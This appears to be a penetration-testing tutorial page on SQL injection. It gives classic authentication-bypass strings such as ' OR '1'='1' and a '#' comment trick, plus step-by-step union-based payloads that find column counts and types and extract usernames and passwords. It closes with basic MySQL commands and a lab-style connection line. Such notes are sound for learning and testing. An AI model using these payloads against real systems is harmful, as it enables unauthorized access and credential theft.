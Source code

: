**Cheat sheets:**
- [MySQL SQL Injection](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet) 
- [Oracle SQL Injection](https://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet)  
- [PostgreSQL SQL Injection](https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)

## Classic SQL Injection
This is the most common type of SQL injection, where an attacker injects malicious SQL code into an application's input fields, typically through user inputs like forms or URL parameters.

```bash
' OR '1'='1'
```
If the application does not properly sanitize input, the SQL query might look like this:
```bash
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = 'password';
```

Also, you can use **#** . The **#** character is used for commenting. So, if the line responsible for the login is: 
````bash
SELECT * FROM users WHERE user=\$user AND password=\$password
```` 
When we login on the page and enter user=Kill-9 and password=123, the executed statement will be: 
````bash
SELECT * FROM users WHERE user='Kill-9' AND password=$123
````
 If we input:
 ````bash
 user=Kill-9'#
````
The statement will be: 
````bash
SELECT * FROM users WHERE user='Kill-9'# AND password=$123
```` 
The commented part is not processed, granting us access.


## Union-Based SQL Injection
In a union-based SQL injection, the attacker leverages the UNION SQL operator to combine results from the original query with results from their injected query.
An attacker might inject SQL code like this:
```bash
' UNION SELECT null, username, password FROM users --
```

#### 1. Determine the number of columns
To carry out a successful `UNION` attack, the attacker must first determine the number of columns in the original query. There are two main methods for identifying this:

- **Using `ORDER BY`**: By incrementally increasing the column number in `ORDER BY` clauses, the attacker can find the number of columns by identifying when an error occurs. For example:
```bash
' ORDER BY 1 -- (no error, at least 1 column)
' ORDER BY 2 -- (no error, at least 2 columns)
' ORDER BY N -- (error 500, N exceeds the column count)
```
Once a certain number causes an error, the attacker deduces the original query has fewer columns than this value.

- **Using `UNION SELECT NULL`**: Another approach is to inject `UNION SELECT NULL` with different counts of `NULL` values, matching the number of columns until there’s no error. For example:
```bash
' UNION SELECT NULL -- (error, as more than one column is likely present)

' UNION SELECT NULL, NULL -- (no error, meaning the query likely has 2 columns)
```

#### 2. Identifying Data Types for Columns 

After determining the number of columns, attackers need to identify the data type for each column because the `UNION` operator only works when column data types match across the original and injected query. This is achieved by using the `UNION SELECT` injection to test for data types one by one. For instance, they can replace each `NULL` with specific data type values:

- **String Data Type**: Inject a string (e.g., `'a'`) in a `NULL` placeholder to check if a column accepts text.
- **Numeric Data Type**: Use numbers in `NULL` positions to determine columns that accept integers.
- **Date Data Type**: Insert a date value (e.g., `'2023-01-01'`) to test if a column accepts dates.

For example:
```bash
' UNION SELECT 'a', NULL, NULL -- (no error means the first column is likely a text type)
' UNION SELECT NULL, 123, NULL -- (no error means the second column is likely an integer)
```

#### 3. Extracting Sensitive Data

Once the attacker knows the number and type of columns, they can extract sensitive data by injecting a query that retrieves this data from other tables within the database:
```bash
' UNION SELECT NULL, username, password FROM users --
```

In this example, the attacker retrieves `username` and `password` columns from the `users` table. They may also utilize functions like `database()` to retrieve database names or `version()` to obtain the database software version.

## MySQL 

- Prints out the databases we can access:
````bash
SHOW databases;
````  

- Set to use the database named {database_name}:
````bash
USE {database_name};
````  

- Prints out the available tables inside the current database:

````bash
SHOW tables;
````  
- Prints out all the data from the table {table_name}:
````bash
SELECT * FROM {table_name};
````  


To connect:
````bash
mysql -h 10.129.42.201 -u root -p <password>
````


